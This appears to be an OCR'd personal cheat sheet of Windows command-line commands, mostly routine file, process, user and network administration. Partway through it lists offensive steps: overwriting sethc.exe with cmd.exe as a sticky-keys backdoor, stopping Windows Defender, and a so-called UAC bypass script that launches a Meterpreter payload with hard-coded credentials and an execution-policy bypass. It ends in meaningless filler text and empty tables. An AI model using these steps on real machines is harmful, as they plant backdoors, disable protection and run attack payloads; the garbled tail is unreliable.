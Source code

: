 start>run>cmd.exe
>start cmd.exe
>start cmd.exe /t:0a
>color /?
## dir creation
```sh
$ mkdir c:\temp
$ >echo hey > cmd.exe
>del cmd.exe
>notepad file.txt
```
clear the screen
>cls
current working directory
>cd 
to find particular string in output
>sc query | find "Event"
show contents of a file
>type c:\windows\win.ini
command history
Alt+F7
how many files are in system32
dir /b c:\windows\system32 | find /c /v ""
what is the length of ini file
type c:\windows\win.ini | find /c /v ""

taskmgr.exe
explorer.exe
regedit.exe
msconfig.exe
lusrmgr.msc
control
control schedtsks
evetvwr.msc
services.msc
secpol.msc

find hidden directory
>dir /aHD
searching directory
>dir /b /s c:\ | find /i "wmic.exe"
>dir /b /s wmic.exe
>dir /b /s *wmic*
>dir /b /s c:\wmic.exe
searching file conents
>findstr /d:c:\windows/system32 "Admin" *
>findstr "Admin" *.ini
The net user command
>net user
>net user fred passwd /add
>net user fred *
account details
>net user fred
account deletion
net user fred /del
change ip address
>netsh int ip set address "Local area connection" static 192.168.10.10 255.255.255.0 192.168.10.1
show firewall settings
>netsh firewall show config

show running process
>tasklist
>tasklist /src
>tasklist /fi "imagename eq cms.exe" /m
>tasklist /m ntdll.dll
kill process
>taskkill /PID [pid]
>taskkill /PID [pid] /PID [pid2]
>taskkill /IM cmd.exe

stop services
>sc query dhcp
>sc stop dhcp


copy d:\windows\system32\sethc.exe d:\
copy /y d:\windows\system32\cmd.exe d:\windows\system32\sethc.exe



Checking your Windows version using CMD
   • systeminfo
      OR
   • Run > winver
Find log files in directory
   •  dir /s *log* 

Process
   • tasklist
   • taskkill /F /PID pid_number


Disable windows defender:
   •  sc stop WinDefend


UAC bypass:
   •  echo $username = "alice" > run.ps1
   •  echo $secpasswd = ConvertTo-SecureString "aliceishere" -AsPlainText -Force >> run.ps1
     echo $mycreds = New-Object System.Management.Automation.PSCredential ("$username",$secpasswd) >> run.ps1
   •  echo Start-Process veil_meterpreter.bat  -Credential ($mycreds) >> run.ps1

   • powershell -ExecutionPolicy Bypass -File run.ps1 
   
   
   
   # dsdsd
fdf- - - 
- 
- 
- 

------------

ccc|   |   |
| ------------ | ------------ |
|   |   |
|   |   |

| cddfdfdf  |dfdfd   |
| ------------ | ------------ |
|   fdfdf|dfdfdf   |
|  dfdf |  fdfdf |
xcvxcvxcvx

[========]

vcxvxcv
